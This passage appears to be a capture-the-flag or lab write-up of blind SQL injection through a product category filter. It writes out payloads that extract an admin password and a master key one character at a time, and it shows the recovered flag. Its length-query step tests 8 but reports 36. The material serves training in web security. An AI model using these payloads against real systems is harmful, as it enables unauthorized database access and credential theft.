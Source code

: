 <img width="1788" height="791" alt="image" src="https://github.com/user-attachments/assets/d82ca7ae-d5f5-4f81-9b05-4dd962985d8a" />

### so password lenth is **`5`**

```
[1]  [2]  [3]  [4]  [5]
```

### let's try to get it



```sql
Electronics') and (SELECT  SUBSTRING(password,1,1) FROM users WHERE username='admin')='a' --
Electronics') and (SELECT  SUBSTRING(password,2,1) FROM users WHERE username='admin')='a' --
Electronics') and (SELECT  SUBSTRING(password,3,1) FROM users WHERE username='admin')='a' --
Electronics') and (SELECT  SUBSTRING(password,4,1) FROM users WHERE username='admin')='a' --
Electronics') and (SELECT  SUBSTRING(password,5,1) FROM users WHERE username='admin')='a' --
```


## found password

```
[1]  [2]  [3]  [4]  [5]
a     d    m    i    n
```


### try do same to get the masterkey

### find it lenght

```
Electronics') AND LENGTH((SELECT key_value FROM masterkeys LIMIT 1))=8 --
```

<img width="1622" height="517" alt="image" src="https://github.com/user-attachments/assets/1ea50ebb-c7e8-4ff6-9aa5-f14283e244b6" />


```
36
```

### start brute force

```
Electronics') AND SUBSTR((SELECT key_value FROM masterkeys LIMIT 1),1,1)='a' --
```



```
[1]  [2]  [3]  [4]  [5]  [6]  [7]  [8]  [9]  [10]  [11]  [12]  [13]  [14]  [15]  [16]  [17]  [18]  [19]  [20]  [21]  [22]  [23]  [24]  [25]  [26]  [27]  [28]  [29]  [30]  [31]  [32]  [33]  [34]  [35]  [36]
A     S     M   _    M     A   S    T    E     R     _     K     E     Y     {     d     1     s     c     o     v     3     r     _     t     h     3     _     s     3     c     r     3     t     !    }
                                           
```


```
ASM_MASTER_KEY{d1scov3r_th3_s3cr3t!}
```






